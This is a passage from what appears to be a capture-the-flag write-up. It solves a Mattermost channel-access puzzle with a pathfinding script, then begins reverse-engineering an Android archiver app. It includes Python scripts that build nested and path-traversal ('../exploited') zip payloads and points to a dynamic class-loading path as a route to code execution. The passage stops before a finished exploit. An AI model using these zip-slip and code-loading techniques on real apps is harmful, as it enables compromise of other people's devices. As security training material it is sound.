    'h64obyji93n75dcwwy4xfarcno', 'hbo689966irppefi37oafo3tca', 'hypxe7jik7bjx881onw9of1nbe', 'tosbendf6idnpc7egyw5wfau9h', 
    'w5sps8fbc7n1jk8bt88fkxs3ee', 
    'w5zjeekxpjfa3kzpzpw4mmzp1y', 'o91awst7w3fidn58ry4cp3r4xh', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel50462" : ['bh87wmq4qfdmdbafhohpy6mq6h', 'o91awst7w3fidn58ry4cp3r4xh', '1xk1z5t3b3ggzeg4xrq3dyiyky',
    'w5zjeekxpjfa3kzpzpw4mmzp1y', '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 
    'g4tp7dewfjgziph3exxjzbrhwy', 'h64obyji93n75dcwwy4xfarcno', 'hbo689966irppefi37oafo3tca', 'hypxe7jik7bjx881onw9of1nbe', 
    'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 
    'w5sps8fbc7n1jk8bt88fkxs3ee', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel52097" : ['o91awst7w3fidn58ry4cp3r4xh', '1w36wtpq4tfhiqe7xdm6igx84o', '1xk1z5t3b3ggzeg4xrq3dyiyky', '5tohie4px3nmipga8maq7koqny', 
    '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 'bh87wmq4qfdmdbafhohpy6mq6h', 'g4tp7dewfjgziph3exxjzbrhwy', 
    'h64obyji93n75dcwwy4xfarcno', 'hbo689966irppefi37oafo3tca', 'tdzdyadzhfdt3nqto9dan3xtia', 'dzkurn8put8udqwrij98u4s94w', 
    'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel52696" : ['g4tp7dewfjgziph3exxjzbrhwy', '1w36wtpq4tfhiqe7xdm6igx84o', '5tohie4px3nmipga8maq7koqny', 
    '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 'dzkurn8put8udqwrij98u4s94w', 'h64obyji93n75dcwwy4xfarcno', 
    'tdzdyadzhfdt3nqto9dan3xtia', 'w5sps8fbc7n1jk8bt88fkxs3ee', '1xk1z5t3b3ggzeg4xrq3dyiyky', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel52797" : ['iyyjrrh6i7d37dkk5tg6wsupnw', 'w5zjeekxpjfa3kzpzpw4mmzp1y', '1w36wtpq4tfhiqe7xdm6igx84o', '5tohie4px3nmipga8maq7koqny', 
    '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 
    'h64obyji93n75dcwwy4xfarcno', 'hypxe7jik7bjx881onw9of1nbe', 'tdzdyadzhfdt3nqto9dan3xtia', 
    'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 'bh87wmq4qfdmdbafhohpy6mq6h', 'o91awst7w3fidn58ry4cp3r4xh'],

    "channel60625" : ['cw41xr7ydfnsjdfwqr9a7agtxr', '1w36wtpq4tfhiqe7xdm6igx84o', '5tohie4px3nmipga8maq7koqny', 
    '6k4nf8umejr7zfqfityfhtn9tw', 'hbo689966irppefi37oafo3tca', 'hypxe7jik7bjx881onw9of1nbe', 'w5sps8fbc7n1jk8bt88fkxs3ee', 
    'w5zjeekxpjfa3kzpzpw4mmzp1y', 'bh87wmq4qfdmdbafhohpy6mq6h', 'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 
    'h64obyji93n75dcwwy4xfarcno', 'tdzdyadzhfdt3nqto9dan3xtia', '1xk1z5t3b3ggzeg4xrq3dyiyky', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel64675" : ['5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', '1w36wtpq4tfhiqe7xdm6igx84o', 'cw41xr7ydfnsjdfwqr9a7agtxr', 
    'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 'h64obyji93n75dcwwy4xfarcno', 'tosbendf6idnpc7egyw5wfau9h',
    'w5sps8fbc7n1jk8bt88fkxs3ee', 'hbo689966irppefi37oafo3tca', 'o91awst7w3fidn58ry4cp3r4xh', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel64922" : ['1w36wtpq4tfhiqe7xdm6igx84o', '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 
    'cw41xr7ydfnsjdfwqr9a7agtxr', 'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 'h64obyji93n75dcwwy4xfarcno', 
    'hypxe7jik7bjx881onw9of1nbe', 'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 
    'w5zjeekxpjfa3kzpzpw4mmzp1y', 'hbo689966irppefi37oafo3tca', 'o91awst7w3fidn58ry4cp3r4xh', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel69244" : ['dzkurn8put8udqwrij98u4s94w', 'iyyjrrh6i7d37dkk5tg6wsupnw', 'hbo689966irppefi37oafo3tca', '1w36wtpq4tfhiqe7xdm6igx84o', 
    '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 'g4tp7dewfjgziph3exxjzbrhwy', 
    'h64obyji93n75dcwwy4xfarcno', 'hypxe7jik7bjx881onw9of1nbe', 'tdzdyadzhfdt3nqto9dan3xtia', 
    'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 'w5zjeekxpjfa3kzpzpw4mmzp1y', '1xk1z5t3b3ggzeg4xrq3dyiyky'],

    "channel70588" : ['cw41xr7ydfnsjdfwqr9a7agtxr', '1w36wtpq4tfhiqe7xdm6igx84o', '6k4nf8umejr7zfqfityfhtn9tw', 
    'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 'h64obyji93n75dcwwy4xfarcno', 'hbo689966irppefi37oafo3tca', 
    'hypxe7jik7bjx881onw9of1nbe', 'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 
    'w5zjeekxpjfa3kzpzpw4mmzp1y', 'bh87wmq4qfdmdbafhohpy6mq6h', 'o91awst7w3fidn58ry4cp3r4xh', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel74850" : ['cw41xr7ydfnsjdfwqr9a7agtxr', 'dzkurn8put8udqwrij98u4s94w', 'hbo689966irppefi37oafo3tca', 
    'hypxe7jik7bjx881onw9of1nbe', 'tdzdyadzhfdt3nqto9dan3xtia', 'w5sps8fbc7n1jk8bt88fkxs3ee', 'bh87wmq4qfdmdbafhohpy6mq6h', 
    'o91awst7w3fidn58ry4cp3r4xh', 'h64obyji93n75dcwwy4xfarcno', '1w36wtpq4tfhiqe7xdm6igx84o', '1xk1z5t3b3ggzeg4xrq3dyiyky', 
    '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 'w5zjeekxpjfa3kzpzpw4mmzp1y', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel81167" : ['1xk1z5t3b3ggzeg4xrq3dyiyky', '5tohie4px3nmipga8maq7koqny', '6k4nf8umejr7zfqfityfhtn9tw', 'cw41xr7ydfnsjdfwqr9a7agtxr', 
    'dzkurn8put8udqwrij98u4s94w', 'g4tp7dewfjgziph3exxjzbrhwy', 'h64obyji93n75dcwwy4xfarcno', 'hbo689966irppefi37oafo3tca', 
    'hypxe7jik7bjx881onw9of1nbe', 'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 
    'w5zjeekxpjfa3kzpzpw4mmzp1y', 'bh87wmq4qfdmdbafhohpy6mq6h', 'o91awst7w3fidn58ry4cp3r4xh', 'iyyjrrh6i7d37dkk5tg6wsupnw'],

    "channel92614" : ['bh87wmq4qfdmdbafhohpy6mq6h', 'o91awst7w3fidn58ry4cp3r4xh', '1w36wtpq4tfhiqe7xdm6igx84o', 
    '1xk1z5t3b3ggzeg4xrq3dyiyky', '5tohie4px3nmipga8maq7koqny', 'cw41xr7ydfnsjdfwqr9a7agtxr', 'dzkurn8put8udqwrij98u4s94w', 
    'g4tp7dewfjgziph3exxjzbrhwy', 'h64obyji93n75dcwwy4xfarcno', 'hbo689966irppefi37oafo3tca', 'hypxe7jik7bjx881onw9of1nbe', 
    'tdzdyadzhfdt3nqto9dan3xtia', 'tosbendf6idnpc7egyw5wfau9h', 'w5sps8fbc7n1jk8bt88fkxs3ee', 'iyyjrrh6i7d37dkk5tg6wsupnw']

}

def pick_nego_users(current_channel, target_channel):
    current_set = set(channels[current_channel])
    target_set = set(channels[target_channel])
    
    # Mods in current channel but NOT in target channel
    mod_candidates = [u for u in current_set if users[u].startswith("mod_") and u not in target_set and u != "rwagbspan7rxppfgrxjbcz4ore"]
    if not mod_candidates:
        raise ValueError("No mod in current channel outside target channel")
    
    mod = mod_candidates[0]  # pick the first mod
    
    # Non-mod users in current channel but NOT in target channel
    other_candidates = [u for u in current_set if not users[u].startswith("mod_") and u not in target_set]

    if len(other_candidates) < 2:
        raise ValueError("Not enough non-mod users in current channel outside target channel")
    
    others = other_candidates[:2]

    
    return [(users[mod], mod), (users[others[0]], others[0]), (users[others[1]], others[1])]

def find_path_to_target(start_channel, target):
    visited = set()  # Keep track of visited channels
    queue = [(start_channel, [])]  # channel, path of (users added, channel) tuples

    while queue:
        current_channel, path = queue.pop(0)
        if current_channel in visited:
            continue
        visited.add(current_channel)

        # If the target user is already in this channel, we found the path
        if target in channels[current_channel]:
            print(f"Reached target in channel: {current_channel}")
            return path + [([], current_channel)]

        # Explore all other channels as next steps
        for next_channel in channels:
            if next_channel not in visited:
                try:
                    # Pick users to negotiate from current_channel to next_channel
                    nego_users = pick_nego_users(current_channel, next_channel)
                except ValueError:
                    # No valid users to pick for this pair of channels
                    continue

                # Add these users to the next_channel (simulate negotiation)
                added_user_ids = [u[1] for u in nego_users]
                channels[next_channel].extend(added_user_ids)

                # Save path step
                path_step = (added_user_ids, next_channel)
                new_path = path + [path_step]

                queue.append((next_channel, new_path))

    print("No path found to target user.")
    return None

def print_nego_path(path):
    for added_users, channel in path:
        if not added_users:
            print(f"# Reached channel {channel} with target user!")
            continue

        # Separate mod from non-mods
        mod = [u for u in added_users if users[u].startswith("mod_")][0]
        non_mods = [u for u in added_users if u != mod]

        # Map IDs to usernames
        mod_name = users[mod]
        non_mod_names = [users[nm] for nm in non_mods]

        # Format the !nego command
        nego_command = f"!nego {channel} {non_mod_names[0]} {non_mod_names[1]} {mod_name}"
        print(nego_command)


def main():
    TARGET_USER = "rnqpjyd5mtnszfgpzkjguu18zo"

    print("Starting from the Public channel to reach the target user...\n")
    # Run the path finder from "public"
    path = find_path_to_target("public", TARGET_USER)

    # Pretty-print the path and users added
    if path:
        print_nego_path(path)


if __name__ == "__main__":

    main()
```

Running this gets us:

```
Starting from the Public channel to reach the target user...

Reached target in channel: channel33768
!nego channel52696 grumpyrhino73 euphoricraisins54 mod_needyboa0
!nego channel64675 grumpyrhino73 needypup16 mod_excitedburritos53
!nego channel48553 wingedmandrill37 needypup16 mod_amazedcamel5
!nego channel33768 wingedmandrill37 ardentpup59 mod_gloomyhyena90
# Reached channel channel33768 with target user!
```

Well, time to see if this works

Starting with the first command, running it in `Public`



So far so good. Ignore the first error message, it did indeed add us to this channel. Also ignore the "Created channel..." message, it didn't actually create a new channel, it added us to the already existing `channel52696`. That's just the default message it provides, but nontheless shows us that the command succeeded. 

Now from within `channel52696`, we run the second command



Beautiful. Now from within `channel64675`, we run the third command



Nice. Now, for the moment of truth, from `channel48553` we run the last command



With that, we indeed are in a channel with `admin_insecureapricots73` and can see some of his communications with some of the other bad actors


Submitting 

```
!nego channel52696 grumpyrhino73 euphoricraisins54 mod_needyboa0
!nego channel64675 grumpyrhino73 needypup16 mod_excitedburritos53
!nego channel48553 wingedmandrill37 needypup16 mod_amazedcamel5
!nego channel33768 wingedmandrill37 ardentpup59 mod_gloomyhyena90
```

solves this task!

**Response:**
> Awesome job! We can now access the channel and are one step closer to removing this threat.

# Task 7 - Finale - (Vulnerability Research, Exploitation)

> Now that we have access to the hidden channel the adversary is using, our military counterparts want to act quickly to destroy the adversary's capacity to continue with their attack against our military networks.

> Analysts have been quickly scrutinizing the data from the privileged channel. They conclude that the adversary has downloaded a custom app to archive all messages sent in the channel locally to their phone. They have also surmised the adversary is running a recent version of Android on a Google Pixel phone. This is the opportunity we have been waiting for! If we can devise a way to exploit on to the adversary's device we will have the advantage.

> Another team has retrieved the custom application APK file for you to analyze.

> Downloads: Custom App (mmarchiver.apk), Licenses (licenses.txt)

> Prompt: Submit a file to be posted to the Mattermost Channel that will be processed by the app and exploits the device. Be careful, we might only be able to do this once!

### Solve:

Here we go, the final task. Let's go get that challenge coin. 

Again, getting this all setup was pretty annoying

#### Setup

Firstly, you need the Mattermost setup that you had running before for Task 6

Now, to run the apk, you can use Android Studio, or at least, that's what I did

The prompt mentions that the most recent version of Android was being used, so I used a Pixel 2 running API version 36 for the emulator. After telling Android Studio where the apk is, it'll start up the emulator, and you can navigate to the app from the emulator



Now we can really start

> I will note though that if you are using WSL like I am there's something a little extra you have to do. I was running the Mattermost instance from WSL but running Android Studio from Windows. In order to have the app running on Windows connect to the Mattermost instance in WSL, use the below command to basically forward the port on WSL to your Windows machine
```
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8065 connectaddress=172.30.48.197 connectport=8065
```
> and then connect in the app using the IP `10.0.2.2` on port `8065`, since `10.0.2.2` is Android Studio's address for the machine that is running the emulator, which in our case, is our Windows host

#### Understanding the App

To reverse engineer the apk, we will use jadx-gui

There is a lot to go through here since the App has a lot of files, so I'll just skip to the important parts

Firstly, we can find a class named `FileDownloadWorker`, and looking at its constructor, appears to set values, but an interesting one is that it sets up an instance of a `zipArchiver` class

```java
public FileDownloadWorker(Context ctx, WorkerParameters params, PreferencesRepository preferencesRepository, MmServerRepository mmServerRepository, ArchiveRepository archiveRepository, NotificationsRepository notificationsRepository, ZipArchiver zipArchiver) {
        super(ctx, params);
        r.e(ctx, "ctx");
        r.e(params, "params");
        r.e(preferencesRepository, "preferencesRepository");
        r.e(mmServerRepository, "mmServerRepository");
        r.e(archiveRepository, "archiveRepository");
        r.e(notificationsRepository, "notificationsRepository");
        r.e(zipArchiver, "zipArchiver");
        this.preferencesRepository = preferencesRepository;
        this.mmServerRepository = mmServerRepository;
        this.archiveRepository = archiveRepository;
        this.notificationsRepository = notificationsRepository;
        this.zipArchiver = zipArchiver;
        this.TAG = E.a(FileDownloadWorker.class).d();
        this.maxAttempts = 5;
    }
```

More on the `zipArchiver` later

If we scroll down a bit, we find the code that from the function name, appears to write downloaded files to disk

```java
private final File writeFileToDisk(ArchiveFile archiveFile, InputStream inputStream) {
    try {
        File file = new File(getApplicationContext().getCacheDir(), FileDownloadWorkerKt.DOWNLOAD_PATH);
        if (!file.exists()) {
            file.mkdirs();
        }
        File file2 = new File(file, archiveFile.getName());
        try {
            FileOutputStream fileOutputStream = new FileOutputStream(file2);
            try {
                c.v(inputStream, fileOutputStream);
                fileOutputStream.close();
                inputStream.close();
                Log.d(this.TAG, "file written to " + file2.getPath());
                return file2;
            } finally {
            }
        } catch (Throwable th) {
            try {
                throw th;
            } catch (Throwable th2) {
                f.l(inputStream, th);
                throw th2;
            }
        }
    } catch (IOException e5) {
        Log.e(this.TAG, "exception during file download: " + e5);
        this.error = ArchiverError.FILE_DOWNLOAD_FAILED;
        return null;
    }
}
```

Based on the name of the apk, `mmarchiver`, it seems pretty obvious that what this app does is download any media (basically any uploaded files) that are uploaded in Mattermost, and saves them to the Android phone. This is further backed up by the presence of a class named `FileSearchWorker`, which I won't show the disassembly of since it's not that important, but is pretty obviously used to find such uploaded files. 

Well, let's test this theory. Since in the constructor for `FileDownloadWorker` we saw a `zipArchiver` object get initialized, let's upload a zip file and see what happens

I create a file called `test.zip` which just contains a text file, named `hi.txt`, whose contents is literally just the word `hi`

I upload it to the `Public` channel and then run the app (it prompts you to log in as a certain user when you do it the first time. I just used the credentials for `decimalpiglet81`). Let's take a look at Logcat

Looking at the app logs, filtering by the word "format", we can see that it detected our zip file, and interestingly, appears to unzip it since it seems to detect the `txt` file within it



Filtering by the word "zip" is even more telling



We can see the path it saves the zip to, which is at `/data/user/0/com.badguy.mmarchiver/cache/download/test.zip`, but the extraction directory is at `/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/test`

From this, we can assume that `hi.txt` is at `/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/test/hi.txt` before it gets archived

Speaking of the archiving part, you can ignore it. That's basically the app living up to its name and archiving the downloaded file, but that avenue doesn't lead anywhere

From this, I immediately wanted to see what would happen if you had a zip within a zip. We can make a pretty simple Python program to create a zip within a zip. The outer zip will be called `outside.zip` and the inner zip will be called `inside.zip`. In the inner zip we will have a text file called `inside.txt`

```python
import zipfile
import io

# Create inner zip in memory
inner_buffer = io.BytesIO()
with zipfile.ZipFile(inner_buffer, 'w', zipfile.ZIP_DEFLATED) as inner_zip:
    inner_zip.writestr('inside.txt', 'Hello from inner zip')


inner_buffer.seek(0)

# Create outer zip and write inner zip as a file
with zipfile.ZipFile('outside.zip', 'w', zipfile.ZIP_DEFLATED) as outer_zip:
    outer_zip.writestr('inside.zip', inner_buffer.read())
```

Now, uploading `outside.zip`, let's see what we get in the logs



Ok nice, it even extracts the inner zip. Additionally, both the inner and outer zips have their extraction directories at the same level

```
deleting extraction directory /data/user/0/com.badguy.mmarchiver/cache/zippier/extract/outside
deleting extraction directory /data/user/0/com.badguy.mmarchiver/cache/zippier/extract/inside
```

From this, `inside.txt` is likely at `/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/inside/inside.txt`

Ok, well, how can we exploit this?

Well, since it does process zip files inside of zip files, I googled any vulnerabilities that may involve that. The first thing that came up was what's called a **ZipSlip** vunerability, which Android themselves even warns of [here](https://developer.android.com/privacy-and-security/risks/zip-path-traversal)

For our above example, essentially, it's done by having the inner zip be named something like `../exploited` instead of `inside.zip`. So instead of `inside.txt` being written to 

```
/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/inside/inside.txt
```

It would get written to

```
/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/../exploited/inside.txt
```

which is basically just

```
/data/user/0/com.badguy.mmarchiver/cache/zippier/exploited/inside.txt
```

This allows us to escape by going up one directory, and either writing stuff in that directory, or as in the above example, writing to a different directory, `exploited`, which is at the same level as `extract`. This gets really scary if `exploited` is a directory that already exists, since you could be writing data to a directory that developers don't want you to write to

We can test this by tweaking our Python script a bit

```python
import zipfile
import io

# Create inner zip in memory
inner_buffer = io.BytesIO()
with zipfile.ZipFile(inner_buffer, 'w', zipfile.ZIP_DEFLATED) as inner_zip:
    inner_zip.writestr('inside.txt', 'Hello from inner zip')


inner_buffer.seek(0)

# Create outer zip and write inner zip as a file
with zipfile.ZipFile('outside.zip', 'w', zipfile.ZIP_DEFLATED) as outer_zip:
    outer_zip.writestr('../exploited', inner_buffer.read())
```



Ok, good work by the developers, it appears that ZipSlip, or at least the most common type, is blocked

So at least from the simple / basic kind of ZipSlip, we can't go up a directory. Maybe something a little trickier would work (ooooh foreshadowing). We can however go "down" a directory though

```python
import zipfile
import io

# Create inner zip in memory
inner_buffer = io.BytesIO()
with zipfile.ZipFile(inner_buffer, 'w', zipfile.ZIP_DEFLATED) as inner_zip:
    inner_zip.writestr('test/inside.txt', 'Hello from inner zip')


inner_buffer.seek(0)

# Create outer zip and write inner zip as a file
with zipfile.ZipFile('outside.zip', 'w', zipfile.ZIP_DEFLATED) as outer_zip:
    outer_zip.writestr('inside.zip', inner_buffer.read())
```

In this code, we have the file name of the text file in the inner zip be named `test/inside.txt`, and this successfully gets processed



Since this worked, that means that, assuming that there was a directory named `test` within the `extract` directory, we would be able to write files to it. This is pretty useless to us though, for now...

Going back to jadx-gui, let's try to find where the logic is that checks for the ZipSlip, just so that we can understand it better

#### Android rev time

It appears that all of the code revolving around the Zip logic is apart of the `Q3` package

In`Q3/a` (a lot of the class and package names are abstracted), we can find the ZipSlip check

```java
for (ZipEntry nextEntry = zipInputStream.getNextEntry(); nextEntry != null; nextEntry = zipInputStream.getNextEntry()) {
    logger.debug("processing zip entry {}", nextEntry);
    File file = new File(targetPath, nextEntry.getName());
    String canonicalPath = file.getCanonicalPath();
    r.d(canonicalPath, "getCanonicalPath(...)");
    if (t.e0(canonicalPath, targetPath.getCanonicalPath() + File.separator, false)) {
        if (nextEntry.isDirectory()) {
            if (!file.isDirectory() && !file.mkdirs()) {
                throw new ZipException("failed to create entry directory " + file);
            }
        } else {
            File parentFile = file.getParentFile();
            if (parentFile != null && !parentFile.isDirectory() && !parentFile.mkdirs()) {
                throw new IOException("failed to create directory " + parentFile);
            }
            FileOutputStream fileOutputStream = new FileOutputStream(file);
            try {
                m0.c.v(zipInputStream, fileOutputStream);
                fileOutputStream.close();
            } finally {
            }
        }
        outFile.addFile(file);
    } else {
        throw new ZipException("bad file name " + file);
    }
}
```

The main check is here

```java
String canonicalPath = file.getCanonicalPath();
r.d(canonicalPath, "getCanonicalPath(...)");
if (t.e0(canonicalPath, targetPath.getCanonicalPath() + File.separator, false)) {
    ...
}
```

This canonicalizes the output path, resolving `../` and normalizes separators. It then compares it against the canonical target directory + separator. If it doesn't start with the target directory, it knows a ZipSlip is occurring. The target directory being `/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/` based off of our testing

So having a file named `../exploited` would have the path be 

```
/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/../exploited
```

or in other words

```
/data/user/0/com.badguy.mmarchiver/cache/zippier/exploited
```

which **does not** start with `/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/`, and fails the ZipSlip check

Well, we're gonna have to put the ZipSlip on hold for a bit, and see what else is interesting in the disassembly

#### Identifying RCE

Again in the `Q3` package, if we look at the `d` class, we find something really interesting, specifically in the function named `a`

```java
public static void a(d dVar, File file) {
    ClassLoader _init_$lambda$1;
    LinkedHashMap linkedHashMap = dVar.f4241e;
    Logger logger = dVar.f4238b;
    j jVar = dVar.f4237a;
    logger.debug("attempting format load from {}", file);
    file.setWritable(false, false);
    try {
        String absolutePath = file.getAbsolutePath();
        r.d(absolutePath, "getAbsolutePath(...)");
        _init_$lambda$1 = ZipArchiver._init_$lambda$1((ZipArchiver) jVar.f1105e, absolutePath);
        Object newInstance = _init_$lambda$1.loadClass(b4.c.a(file.getName())).getDeclaredConstructor(null).newInstance(null);
        r.c(newInstance, "null cannot be cast to non-null type net.axolotl.zippier.ZipFormat");
        ZipFormat zipFormat = (ZipFormat) newInstance;
        logger.info("loaded format from " + zipFormat);
        linkedHashMap.put(zipFormat.getExtension(), zipFormat);
    } catch (Throwable th) {
        logger.error("failed to load format from " + file + ": " + th);
        file.delete();
    }
}
```

This function dynamically loads and instantiates a class from a JAR file using a custom ClassLoader

First it returns a ClassLoader based on the passed in JAR file, with the JAR file being referenced by `absolutePath`, which it gets from the passed in `File file` parameter

```java
_init_$lambda$1 = ZipArchiver._init_$lambda$1((ZipArchiver) jVar.f1105e, absolutePath);
```

Then in this one line, a class name is derived from the file name and that class is loaded and instantiated

```java
Object newInstance = _init_$lambda$1.loadClass(b4.c.a(file.getName())).getDeclaredConstructor(null).newInstance(null);
```

If we look at the `a()` function, we can see that this is basename extraction

```java
public static String a(String str) {
    String substring;
    if (str == null) {
        substring = null;
    } else if (str.indexOf(0) < 0) {
